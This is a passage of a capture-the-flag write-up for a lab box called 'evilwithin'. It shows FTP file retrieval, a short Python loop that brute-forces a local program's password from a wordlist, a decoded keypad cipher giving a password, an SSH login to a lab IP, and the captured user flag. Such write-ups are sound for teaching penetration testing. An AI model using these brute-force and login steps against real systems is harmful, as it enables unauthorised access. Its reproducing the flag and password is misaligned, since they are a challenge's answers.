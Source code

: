 ```sh
```
- `mget <something>` this command will download things from ftp to our local machine
- we get two file `program  random.dic`
- random is something might me password and program is seeming tobe the user name for that we have to check it
- I found  a script in github which will hit every possible passwrod with the username

**script.py**
```py
import os
import subprocess
import sys

f = open("random.dic", "r")

keys = f.readlines()

for key in keys:
	key = str(key.replace("\n", ""))
	print (key)
	subprocess.run(["./program", key])
```
- I am here saving the password into a file called `password.txt`

```sh
kidman
kidman => Correct

Well Done !!!
Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33


$ grep "Correct" password.txt
kidman => Correct

```
- this could be our user
- Well Done !!! Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33
- this could be the password but we have to decode this
- `KIDMANSPASSWORDISSOSTRANGE`

**SSH login**
```sh
$ sudo ssh kidman@10.10.74.154
kidman@10.10.74.154's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

171 packages can be updated.
121 updates are security updates.

```
```sh
kidman@evilwithin:~$ ls
user.txt
kidman@evilwithin:~$ cat user.txt 
4C72A4EF8E6FED69C72B4D58431C4254

```
**Finding in the crontab**
```sh
```